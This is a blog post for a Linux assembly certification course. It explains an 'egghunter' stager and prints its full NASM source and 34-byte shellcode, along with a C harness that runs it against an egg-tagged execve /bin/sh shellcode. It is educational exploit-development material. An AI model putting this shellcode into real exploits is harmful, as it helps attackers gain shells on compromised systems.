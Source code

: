 ```yaml
---
comments: true
date: 2014-04-09
layout: post
title: 'SLAE Assignment 3: EggHunter Demo'
subtitle: '3rd assignment of the SLAE'
---
```


This is the third of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Study about EggHunter
	
  2. Make a working demo
	
  3. Make it configurable for different payload

An EggHunter is a small piece of code that search to a pattern (the egg) into the memory and once the pattern is found the shellcode will be executed. Tipically the egg is wrote twice, this to avoid the problem of finding an identical sequence in some other part of the memory.

The following is a PoC of an EggHunter:
   
	unsigned char egghunter[] = "egghunter shellcode"
	unsigned char shellcode[] = \
	"egg"
	"egg"
	"execve /bin/sh shellcode"

	int main(void){
		run(egghunter);
		return 0;
	}

This is the complete shellcode:

	;Description:	Assignment #3 (EggHunter, 34 bytes)
	;Shellcode:		\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0
	;Author: 		Paolo Stivanin <https://github.com/paolostivanin>
	;SLAE ID:		526

	global _start
	section .text
	_start:
		fldz
		fstenv [esp-0xc]
		pop eax
		lp1:
		inc eax
		xor ebx,ebx
		mov cl,2
		lp2:
		cmp dword [eax+ebx],0xddccbbaa
		jne lp1
		add ebx,4	;the egg must be found twice so i check eax and eax+4
		dec cl		;this is a counter to track how many times the egg has been found
		jnz lp2
		lea eax,[eax+8]	;if the egg has been found then jmp into the shellcode
		jmp eax

In this shellcode I didn't use the jmp-call-pop technique (which is more ids friendly) but instead I used two FPU instructions:

  * `fldz` to push +0.0 onto the FPU register stack
	
  * `fstenv [esp-0xc]` to save the current FPU operating environment at the specified memory location
	
  * and then `pop eax` . Now `eax` contains the address offldz

The following is the graph of the egghunter shellcode flow:

[![graph_assign3]({{ site.baseurl }}/images/2014/04/graph_assign3-1024x601.png)]({{ site.baseurl }}/images/2014/04/graph_assign3.png)

This is the C source file:

	/* Description:	EggHunter(execve(/bin/sh))
	* Author:	Paolo Stivanin <https://github.com/paolostivanin>
	* SLAE ID:	526
	*/

	#include <stdio.h>
	#include <string.h>

	unsigned char eggHunter[] = \
	"\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0";

	unsigned char execveShellcode[] = \
	"\xaa\xbb\xcc\xdd" //egg
	"\xaa\xbb\xcc\xdd" //egg
	"\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";

	int main(void){
		printf("EggHunter: %zu\n", strlen(eggHunter));
		printf("Shellcode: %zu\n", strlen(execveShellcode));
		int (*ret)() = (int(*)())eggHunter;
		ret();
		return 0;
	}

and the following is the result of the above snippet:

[![assign3]({{ site.baseurl }}/images/2014/04/assign3-1024x552.png)]({{ site.baseurl }}/images/2014/04/assign3.png)

All the sources can be found in my [Github page](https://github.com/paolostivanin/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)


**Student ID: SLAE-526**
